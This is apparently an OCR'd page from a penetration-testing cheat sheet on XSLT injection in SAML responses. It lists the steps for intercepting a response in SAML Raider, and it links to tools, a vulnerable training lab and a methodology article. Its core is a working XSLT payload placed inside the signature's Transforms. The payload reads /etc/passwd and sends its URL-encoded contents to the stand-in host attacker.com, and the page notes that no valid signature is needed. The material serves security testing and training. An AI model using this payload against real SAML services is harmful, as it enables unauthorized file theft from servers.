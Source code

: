 7. **XSLT in SAML:**

```python
**NOTE:**
- The attack doesn’t require a valid signature to succeed.
- The XSLT transformation occurs before the digital signature is processed for verification.

# Steps to Perform:
1**. Intercept the SAML Response in SAML Raider.
2. Add XSLT payload in side transforms assertion like below.
		<ds:Signature xmlns:ds="http://www.w3.org/2000/09/xmldsig#">
	  ...
	    <ds:Transforms>
	      <ds:Transform>
	        <xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
	          <xsl:template match="doc">
	            <xsl:variable name="file" select="unparsed-text('/etc/passwd')"/>
	            <xsl:variable name="escaped" select="encode-for-uri($file)"/>
	            <xsl:variable name="attackerUrl" select="'http://attacker.com/'"/>
	            <xsl:variable name="exploitUrl" select="concat($attackerUrl,$escaped)"/>
	            <xsl:value-of select="unparsed-text($exploitUrl)"/>
	          </xsl:template>
	        </xsl:stylesheet>
	      </ds:Transform>
	    </ds:Transforms>
	  ...
		</ds:Signature>
3. Forward the request and check response.
4. Done Escalate Further.!!
```

# Tools:

[SAML Encoder - Online SAML Request-Response Encode Tool - Base64 - Deflate](https://www.samltool.com/encode.php)

[https://github.com/CompassSecurity/SAMLRaider](https://github.com/CompassSecurity/SAMLRaider)

[GitHub - fadyosman/SAMLExtractor: A tool that can take a URL or list of URL and prints back SAML consume URL.](https://github.com/fadyosman/SAMLExtractor)

# Labs:

[GitHub - yogisec/VulnerableSAMLApp: Vulnerable SAML infrastructure training applicaiton](https://github.com/yogisec/VulnerableSAMLApp)

# Reference:

[How to Hunt Bugs in SAML; a Methodology - Part I -](https://epi052.gitlab.io/notes-to-self/blog/2019-03-07-how-to-test-saml-a-methodology/)

